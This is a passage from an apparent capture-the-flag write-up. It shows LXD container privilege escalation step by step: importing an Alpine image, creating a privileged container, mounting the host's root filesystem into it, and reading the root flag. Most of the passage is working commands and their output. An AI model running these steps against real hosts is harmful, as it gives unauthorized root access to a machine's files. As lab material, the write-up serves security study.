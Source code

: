 [Reference](https://ubuntu.com/server/docs/containers-lxd)

Like instructed in the [article](https://www.hackingarticles.in/lxd-privilege-escalation/) we first git clone the [repository](https://github.com/saghul/lxd-alpine-builder.git) and run the script inside it as root.

Next we transfer the thus generated file which looks kinda like `alpine-v3.12-x86_64-20200913_1159.tar.gz`. After transferring it to the target machine we do the following steps.

{%highlight text%}
lxc image import alpine-v3.12-x86_64-20200913_1159.tar.gz --alias myimage

lxc image list
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |          UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+
| myimage | d672a8b5660e | no     | alpine v3.12 (20200913_11:42) | x86_64       | CONTAINER | 3.05MB | Sep 13, 2020 at 10:04am (UTC) |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+

lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
~ # whoami
whoami
root

{%endhighlight%}

- In the first command we import our created container.
- Next we list out all the containers and we can see ours in there.
- Next we set the privileges of the container according to the above explaination
- Then we mount the whole file system of the host inside our container
- Now we just start the container and get a shell inside it.
- We are the root user of the container. (Not the host!)

Next steps are easy

{%highlight text%}
~ # cd /mnt/root
cd /mnt/root
/mnt/root # ls       
ls
bin         home        lost+found  root        swap.img
boot        lib         media       run         sys
cdrom       lib32       mnt         sbin        tmp
dev         lib64       opt         snap        usr
etc         libx32      proc        srv         var

cd root
/mnt/root/root # ls       
ls
root.txt  snap
{%endhighlight%}
